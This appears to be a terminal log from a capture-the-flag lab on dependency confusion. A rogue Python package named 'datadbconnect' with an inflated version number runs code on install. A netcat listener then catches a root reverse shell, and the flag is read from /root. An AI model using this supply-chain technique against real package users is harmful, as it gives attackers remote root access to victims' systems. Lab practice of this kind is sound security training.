 ```
  /usr/lib/python3/dist-packages/setuptools/command/install.py:34: SetuptoolsDeprecationWarning: setup.py install is deprecated. Use build and pip and other standards-based tools.
    warnings.warn(
  installing to build/bdist.linux-x86_64/wheel
  running install
  running install_egg_info
  running egg_info
  writing datadbconnect.egg-info/PKG-INFO
  writing dependency_links to datadbconnect.egg-info/dependency_links.txt
  writing top-level names to datadbconnect.egg-info/top_level.txt
  reading manifest file 'datadbconnect.egg-info/SOURCES.txt'
  writing manifest file 'datadbconnect.egg-info/SOURCES.txt'
  Copying datadbconnect.egg-info to build/bdist.linux-x86_64/wheel/datadbconnect-9000.0.2.egg-info
  running install_scripts
  Hello World from installer, this proves our injection works



┌──(witty㉿kali)-[~/Downloads/confusion_dependency]
└─$ rlwrap nc -lvnp 8080
listening on [any] 8080 ...
connect to [10.8.19.103] from (UNKNOWN) [10.10.68.245] 55124
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# ls
PKG-INFO
build
datadbconnect.egg-info
pip-delete-this-directory.txt
pip-egg-info
setup.cfg
setup.py
# cd /root
# ls
flag.txt
# cat flag.txt
THM{RCE.Through.Dependency.Confusion}
# cd /
# ls -lah
total 76K
drwxr-xr-x   1 root root 4.0K Feb 22 21:52 .
drwxr-xr-x   1 root root 4.0K Feb 22 21:52 ..
-rwxr-xr-x   1 root root    0 Feb 22 21:52 .dockerenv
drwxr-xr-x   2 root root 4.0K Aug  1  2022 bin
drwxr-xr-x   2 root root 4.0K Apr 24  2018 boot
drwxr-xr-x   5 root root  340 Feb 22 21:52 dev
drwxr-xr-x   1 root root 4.0K Feb 22 21:52 etc
drwxr-xr-x   2 root root 4.0K Apr 24  2018 home
drwxr-xr-x   1 root root 4.0K Aug  9  2022 lib
drwxr-xr-x   2 root root 4.0K Aug  1  2022 lib64
drwxr-xr-x   2 root root 4.0K Aug  1  2022 media
drwxr-xr-x   2 root root 4.0K Aug  1  2022 mnt
drwxr-xr-x   2 root root 4.0K Aug  1  2022 opt
dr-xr-xr-x 137 root root    0 Feb 22 21:52 proc
drwx------   1 root root 4.0K Aug  9  2022 root
drwxr-xr-x   5 root root 4.0K Aug  1  2022 run
drwxr-xr-x   2 root root 4.0K Aug  1  2022 sbin
drwxr-xr-x   2 root root 4.0K Aug  1  2022 srv
dr-xr-xr-x  13 root root    0 Feb 22 21:52 sys
drwxrwxrwt   1 root root 4.0K Feb 22 21:53 tmp
drwxr-xr-x   1 root root 4.0K Aug  1  2022 usr
drwxr-xr-x   1 root root 4.0K Aug  1  2022 var
```